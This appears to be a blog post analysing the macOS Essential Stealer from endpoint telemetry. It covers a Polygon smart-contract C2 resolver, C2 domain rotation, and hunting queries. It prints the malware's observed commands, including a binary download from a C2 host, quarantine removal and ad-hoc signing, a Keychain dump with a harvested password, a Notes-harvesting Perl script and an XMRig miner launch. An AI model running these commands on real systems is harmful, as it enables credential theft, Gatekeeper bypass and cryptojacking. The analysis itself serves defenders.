










## Introduction

I originally came across Essential Stealer while looking for macOS malware samples that I could use for testing. A Reddit post eventually led me to MalwareLearn's analysis of [script.sh](https://www.malwarelearn.com/reports/scriptsh/1/), which documented a macOS stealer using shell scripts, AppleScript, credential collection, persistence, and remote tasking.

I ran the sample in my macOS research VM on September 11 and reviewed the resulting Elastic telemetry. At the time, most of what I saw looked similar to behaviour already documented in other macOS infostealers, so I did not think there was much value in writing another general malware walkthrough.

I left the VM in its infected state and moved on. A few weeks later, on October 1, I returned to the same VM while experimenting with Apple Unified Logs. Elastic was still running in the background.

While reviewing the new telemetry, I noticed behaviour that I did not remember seeing during the original execution: Apple Notes processing through Perl, a separately downloaded Keychain extraction utility, and XMRig being delivered through the malware's remote tasking. More importantly, some of this activity had already happened before I manually ran the sample again.

That made the VM more interesting than I originally expected. Instead of another full Essential Stealer analysis, I decided to focus on the behaviours that stood out from the endpoint telemetry.

---

## September 11: The Initial Infection

The September execution gave me a baseline for the later activity.

One interesting part of the infection was how the malware obtained its C2 server. Rather than keeping the active domain directly inside the script, it queried a Polygon RPC endpoint using `eth_call`.

The command observed in Elastic looked like:

```bash
curl -s --max-time 15 https://polygon.drpc.org \
  -X POST \
  -H 'Content-Type: application/json' \
  --data '{"jsonrpc":"2.0","method":"eth_call","params":[{"to":"0xA3a603F8a454a9c905b4c579Bb72628F7C15C2A0","data":"0x2686ecea"},"latest"],"id":1}'
```

The surrounding shell logic extracted the hexadecimal value returned by the smart contract, decoded it, and then used the result as the C2 address. We can use [this](https://polygonscan.com/address/0x363aeaf1f67f1fb7abddc3f9806a301f1c64abe3) to help us with understanding the trasnactions that happened. 



During the September observation, the malware later communicated with:

```text
jse8x92s.me
```



The rest of the execution contained more familiar stealer behaviour including host discovery, browser and wallet collection, credential handling, staging, persistence, and task polling.

One artifact became useful again later.

The malware validated the supplied user password with:

```bash
dscl . authonly <user> <password>
```

and stored the successfully validated password in:

```text
~/.passphrase
```

At the time, this looked like another credential-related artifact. On October 1, the same password was reused for a separate Keychain extraction attempt.

---


## Following the C2 Rotation

I later looked a little further into the Polygon smart contract used by the malware.

This setup works as a **dead drop resolver**. Instead of the malware containing a fixed C2 address, it checks another location to find the current server. In this case, that location is a Polygon smart contract.

The operator can therefore change the C2 value without changing the malware already running on an infected system.

The contract used the following function to update the server:

```text
setServerURL(string _serverURL)

MethodID: 0xd75d1ba6
```

For example, one transaction contained:

```text
706f6272756f672e77696b69
```

which decodes to:

```text
pobruog.wiki
```
You could either use the `decode input data` or go to [cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')) and place the value here from the input data section. 



Looking through previous `setServerURL` transactions showed that the value had been changed repeatedly.

| Date | C2 stored in contract | Transaction |
|---|---|---|
| Aug 31 | `machine628.baby` | `0xfa17...30fea` |
| Sep 7 | `d9mjs.sbs` | `0xc538...4445c` |
| Sep 18 | `namanami.top` | `0xddc3...51b03` |
| Sep 22 | `electronic72.pro` | `0x79b0...48279` |
| Sep 22 | `namanami.top` | `0xe5e0...77e5d` |
| Sep 22 | `electronic72.pro` | `0x5fde...dee92` |
| Sep 25 | `xynero.xyz` | `0x973c...a7827` |
| Sep 28 | `bagueie.xyz` | `0x7d48...949b9` |
| Sep 30 | `hahah1101.mom` | `0x8555...8b185` |
| Sep 30 | `hugg1ngvx.top` | `0xbc95...f803e` |
| Oct 9 | `pobruog.wiki` | `0x3161...7164e` |

I was not trying to perform full blockchain forensics here. I only wanted to see whether the smart contract was actively being used to rotate infrastructure.

Several of the domains recovered during this review also appeared in the endpoint telemetry when my VM was running:

| C2 domain | First observed in Elastic |
|---|---|
| `electronic72.pro` | Oct 1 |
| `nomaiei.sbs` | Oct 1 |
| `sayosay.cc` | Oct 5 |
| `pobruog.wiki` | Oct 9 |

Not every historical domain appeared in Elastic. This was expected because the analysis VM was not running continuously. The endpoint logs could only capture C2 values retrieved while the VM was online.

One of the clearest examples was `pobruog.wiki`.

Elastic showed `/usr/bin/curl` connecting to `polygon.drpc.org` and then almost immediately connecting to `pobruog.wiki`.



In simple terms:

```text
Malware
   |
   v
polygon.drpc.org
   |
   | read current server
   v
Polygon smart contract
   |
   v
pobruog.wiki
   |
   v
C2 communication
```

This gave me an endpoint view of the dead drop resolver in action rather than only seeing the mechanism inside the malware script.

---

## October 1: Hunting the Weird Stuff

When I returned to the VM on October 1, I expected to use the infection mainly as ground truth for some macOS logging tests.

Instead, Elastic showed several behaviours that stood out from the original run.

### Apple Notes Processing Through Perl

One unusual process chain started with `osascript`, followed by a shell and then `/usr/bin/perl`.



The Perl one-liner was processing temporary data that appeared to be related to Apple Notes.

It split the input using the ASCII Record Separator (`0x1E`), removed HTML-style formatting, decoded entities, cleaned whitespace, and prepared the records for output.

The command line executed was : 

```text
sh -c '
DIR="/tmp/bb9bfabc9b8be09bb6630c68b74380d31790856973"

perl -CSD -e '\''
local $/;
my $data = <STDIN>;

my @parts = split /\036/, $data, -1;
my @keep;

for my $b (@parts) {
    my $s = $b;

    $s =~ s{<\s*br\s*/?\s*>}{\n}gi;
    $s =~ s{</\s*(?:p|div|h[1-6]|li|tr|blockquote)\s*>}{\n}gi;
    $s =~ s{<[^>]+>}{}g;

    $s =~ s/&nbsp;/ /g;
    $s =~ s/&lt;/</g;
    $s =~ s/&gt;/>/g;
    $s =~ s/&quot;/chr(34)/ge;
    $s =~ s/&apos;/chr(39)/ge;
    $s =~ s/&#(\d+);/chr($1)/ge;
    $s =~ s/&#x([0-9a-fA-F]+);/chr(hex($1))/ge;
    $s =~ s/&amp;/&/g;

    $s =~ s/[ \t]+\n/\n/g;
    $s =~ s/\n{3,}/\n\n/g;
    $s =~ s/^\s+//;
    $s =~ s/\s+$//;

    push @keep, $s if $s =~ /\S/;
}

my $c = scalar @keep;

if ($c) {
    my $path = "$ENV{DIR}/Notes ($c).txt";

    open(my $F, ">:encoding(UTF-8)", $path) or die "$!";

    print $F join(
        "\n\n" . ("=" x 60) . "\n\n",
        @keep
    );

    print $F "\n";
    close $F;
}
'\'' < "/var/folders/f8/lm5k2dvj5wg8827hn_nr5cq40000gn/T/tmp.1YJnrsYctG"
'

```

The rough flow was:

```text
Apple Notes data
      |
      v
temporary file
      |
      v
Perl processing
      |
      v
clean / decode content
      |
      v
Notes (<count>).txt
```

My test VM did not contain any Apple Notes data, so I did not recover a completed Notes output file. The useful finding was therefore the collection and processing logic rather than confirmed Notes theft.

---

### A Native Keychain Extractor

The next sequence was more interesting.

The malware downloaded a native binary from:

```text
https://electronic72.pro/es-arm
```

and saved it locally as `extractor`.



Before execution, the malware ran:

```bash
chmod +x <path>/extractor

xattr -dr com.apple.quarantine <path>/extractor

codesign --force --sign - <path>/extractor
```

So the workflow was not simply download and execute. The malware explicitly made the binary executable, removed its quarantine attribute, and ad-hoc signed it.

It then attempted to run:

```bash
extractor dumpkeys \
  -o ~/.chainblob256 \
  --keychain-pw <redacted>
```



The password supplied to the extractor came from the previously created:

```text
~/.passphrase
```

This linked the new activity back to the credential handling from the original infection.

The extraction did not complete successfully.

A surviving `runtimelog.txt` contained:

```text
CollectData | Error 137:
Killed: 9
... extractor dumpkeys -o '/Users/.../.chainblob256' --keychain-pw '<redacted>'
```

`Killed: 9` indicates the process was terminated with `SIGKILL`, while exit status `137` is consistent with termination by signal 9.

I therefore treated this as a **Keychain extraction attempt**, rather than claiming that the Keychain dump succeeded.

---

### Remote Tasking and XMRig

The implant also received additional remote tasking.

One of the returned commands started with:

```bash
killall xmrig
```

It then downloaded the official XMRig 6.26.0 ARM64 release from GitHub, extracted it, made the binary executable and created a symlink.

Eventually XMRig was launched as:

```bash
nohup ./xmrig \
  -o pool.hashvault.sh:443 \
  -u <wallet-redacted> \
  -p arm64 \
  -k \
  --tls \
  --threads=2
```



The mining configuration was passed directly through the command line rather than through the default `config.json`.

The endpoint telemetry therefore confirmed that XMRig was downloaded, prepared and launched.

I did not observe enough network telemetry from the XMRig process itself to say that it successfully established a mining session, so I am treating this as a confirmed deployment and execution attempt rather than confirmed successful mining.

The initial `killall xmrig` is also interesting because it suggests the task contained logic to remove an existing miner before starting another copy. It does not, by itself, prove that XMRig was already running.

---

## A Few Hunting Ideas

These are not meant to be complete production detections, but they are a few useful starting points that came out of the investigation.

### Polygon RPC / Dead Drop Resolver

The most specific starting point is looking for curl command line combined with `eth_call`:

```text
process.executable : "/usr/bin/curl"
and process.command_line : *eth_call*
```

This is more useful than simply hunting for `curl`, which would obviously be far too noisy.

### Perl Spawned From a Shell

The Notes processing also made `/usr/bin/perl` worth pivoting on:

```text
process.executable : "/usr/bin/perl"
and process.parent.executable : ("/bin/sh" or "/bin/bash" or "/bin/zsh")
```

This should be treated as a hunting starting point rather than a detection by itself. From there, I would inspect the parent process, command line and surrounding temporary-file activity.

### Keychain Extraction Artifacts

The native extractor gave a few stronger strings to pivot on:

```text
process.command_line : *chainblob256*
or process.command_line : *dumpkeys*
or process.command_line : *--keychain-pw* or file.path : *chainblob256*
```

I have intentionally left out a simple XMRig hunt here. Most EDRs would flag it and quarantine before execution. 

---

## A Short Look at Apple Unified Logs

As a small preview of some Apple Unified Log research I am working on, I also checked whether macOS itself had recorded anything useful around the infection. This was not meant to be a full Unified Log investigation. I only wanted to see whether a few behaviours already confirmed in Elastic could also be found in native macOS logging.

### Background Task Management

One of the better results came from macOS Background Task Management.

The malware had configured a LaunchAgent under:

```text
~/Library/LaunchAgents/com.guqtsajmydvdqbwg.plist
```

Searching the Unified Logs with:

```bash
log show \
  --archive sep11.logarchive \
  --style compact \
  --info --debug \
  --predicate 'subsystem CONTAINS[c] "backgroundtaskmanagement" AND eventMessage CONTAINS[c] "url"'
```

returned events from `backgroundtaskmanagementd`.

The logs included the LaunchAgent path:

```text
url=file:///Users/jason/Library/LaunchAgents/com.guqtsajmydvdqbwg.plist
```

and another event contained information such as:

```text
name=bash
type=legacy agent
disposition=[enabled, allowed, not notified]
identifier=8.com.guqtsajmydvdqbwg
```



This does not prove when the plist itself was written, but it does show that macOS had recognised and registered the persistence item.

The path, identifier, state and configured arguments were still useful investigation context.

### XMRig and the Native Security Stack

The XMRig binary also left useful traces in Apple Unified Logs.

One of the clearer examples came from `syspolicyd`, which is involved in macOS security-policy checks used by Gatekeeper. The logs repeatedly showed `syspolicyd` evaluating the XMRig binary at:

```text
/private/tmp/rigupdater/xmrig-6.26.0/xmrig
```

This was useful because the Unified Logs did not just show a generic security event. They preserved the exact path of the binary being evaluated, which matched the XMRig location already seen in the Elastic telemetry.

The same events identified the object as:

```text
id: xmrig
bundle_id: NOT_A_BUNDLE
```

Later entries also showed Gatekeeper/XProtect-related processing for the same file:

```text
GK Xprotect results
scan finished, waking up any waiters
GK evaluateScanResult
```



The important point here is not that XProtect necessarily detected XMRig as malware. Rather, the logs show that the binary passed through macOS's native security evaluation path and that `syspolicyd` recorded the exact file being assessed.

For an investigation, this can be useful because it gives additional evidence that a specific binary was seen and evaluated by Gatekeeper-related components, even when the full process execution chain is easier to reconstruct from EDR telemetry.

This is only a short sneak peek of the Unified Log research I am working on. I am looking at it separately to understand how much malicious activity Apple Unified Logs can actually help reconstruct, what useful artifacts remain, and where the visibility starts to break down.

---

## Final Thoughts

What interested me most about this infection was not any single technique. The same infected VM looked different depending on when I observed it.

The September execution mostly showed the initial stealer behaviour. By October, the same environment exposed Apple Notes processing, a native Keychain extractor, remote shell tasking and XMRig deployment. The smart contract added another useful view of the same infrastructure. Historical transactions showed the C2 value changing over time, while Elastic showed the infected endpoint querying Polygon and then communicating with some of those values while the VM was online.

For me, the main takeaway was that a single malware execution is only a snapshot.